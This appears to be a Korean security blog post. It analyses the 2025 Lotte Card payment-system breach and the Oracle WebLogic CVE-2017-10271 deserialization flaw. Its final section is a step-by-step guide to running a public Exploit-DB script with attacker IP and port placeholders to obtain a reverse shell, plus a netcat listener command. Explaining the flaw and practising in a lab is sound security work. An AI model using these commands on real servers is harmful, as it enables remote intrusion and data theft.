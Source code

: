 ```yaml
---
title:  "2025-08-26 롯데카드 온라인 결제 시스템 해킹 사건 분석"
excerpt: "오라클 웹로직 CVE-2017-10271 취약점에 대해 알아보자. "

categories: [information, cve]
tags:
  - [cve, oracle ]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02
---
```

## 사건 개요
<img src="../../../images/2025-09-01-lottecard/image.png" alt="img" style="zoom:50%;" />

롯데카드 온라인 결제 시스템 해킹 시도 포착…웹쉘 업로드 통한 내부자료 1.7GB 유출 정황

롯데카드 내부 서버 해킹 시도가 실제 데이터 유출로 이어진 정황이 확인됐다. 이번 공격은 단순한 침투 시도를 넘어, 온라인 결제 시스템을 겨냥해 악성코드를 심고 내부 자료를 탈취하는 수준으로 진행된 것으로 알려졌다.

롯데카드는 지난 8월 26일 내부 서버 침해 정황을 포착한 뒤 9월 1일 금융감독원에 관련 사실을 신고했다. 자체 조사 결과, 공격자는 Oracle WebLogic(오라클 웹로직)의 CVE-2017-10271 취약점을 악용해 악성코드를 감염시킨 뒤 웹쉘을 업로드했다. 이를 통해 내부 결제 시스템 자료 약 1.7GB가 외부로 유출된 것으로 파악됐다.

롯데카드는 이번 사고가 랜섬웨어와 같은 직접적 서비스 마비 공격은 아니지만, 온라인 결제 핵심 시스템을 노린 침해였다는 점에서 사안의 심각성이 크다고 보고 있다.

**ISMS-P 획득 이후 발생한 보안 침해 사고**

롯데카드는 지난 8월 12일 정보보호 및 개인정보보호 관리체계(ISMS-P) 인증을 획득하며 보안 강화 노력을 이어온 기업이다. 그러나 불과 2주 만에 온라인 결제 시스템에서 취약점이 악용된 사건이 발생하면서 업계 전반의 보안 체계가 여전히 근본적인 위협에 직면해 있음을 보여준다.

출처 : 데일리시큐(https://www.dailysecu.com)

## CVE-2017-10271
### 취약점 개요
CVE-2017-10271은 Oracle WebLogic Server의 원격 코드 실행(RCE) 취약점으로, 공격자가 특수 제작된 XML 데이터를 전송하여 원격에서 임의의 코드를 실행할 수 있는 심각한 보안 문제이다.

해당 취약점은 WebLogic의 wls-wsat 컴포넌트에 존재하는 역직렬화 취약점으로써, 적절한 인증 없이 원격에서 공격이 가능하다. 공격자는 이를 이용해 웹쉘 업로드, 악성코드 설치, 원격 제어 등 다양한 공격을 수행할 수 있다.

### CVE-2017-10271 exploit 방법
- 공격자는 취약한 WebLogic 서버에 악성 XML 페이로드를 보내 원격 코드 실행 권한 획득
- 이후 PowerShell 스크립트 등을 이용해 공격용 바이너리를 다운로드 및 실행하거나 웹쉘을 업로드
- 공개된 익스플로잇 코드와 Metasploit 모듈이 존재하여 실습 환경에서 원격 코드 실행을 연습 가능


#### exploit 준비 사항 및 사용 방법
활용 exploit - [Exploit-DB](https://www.exploit-db.com/exploits/43458)

- 취약한 Oracle WebLogic 서버 주소(URL)
- 공격자의 리버스 셸을 받을 IP(lhost) 및 포트(lport) (리스닝 환경 구성 필요)
- Python 3 환경 (requests 라이브러리 필요)
- 리버스 셸 리스닝 도구 (nc 또는 Python HTTP 서버 등)

#### 1. 취약한 서버가 있는 URL, 리버스 쉘을 받을 IP, Port 지정
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/
```

#### 2. 윈도우 서버 대상이면 `-w` 옵션 추가하여 윈도우용 페이로드 사용
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -w
```

#### 3. 취약 여부만 확인하려면 `-c` 옵션을 사용하여 HTTP 요청 체크 실행
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -c
```

#### 4. 이후 공격자 머신에서 리버스 쉘을 받을 리스너 실행
```bash
nc -nlvp <포트>

또는

python3 -m http.server <포트>
```
스크립트를 실행하면 취약 서버에 XML 페이로드를 전송하여 임의 코드(리버스 셸) 실행을 시도한다. 리스너에서 쉘 접속이 열리면 공격 성공

#### 주요 옵션
- `-l` : 리스너 IP
- `-p` : 리스너 포트
- `-r` : 취약 서버 URL (예: http://10.10.10.10:7001)
- `-c` : 취약점 존재 체크(HTTP 요청만 확인)
- `-w` : 윈도우 대상 페이로드 사용

주의: 반드시 허가된 실습 환경에서만 사용!!

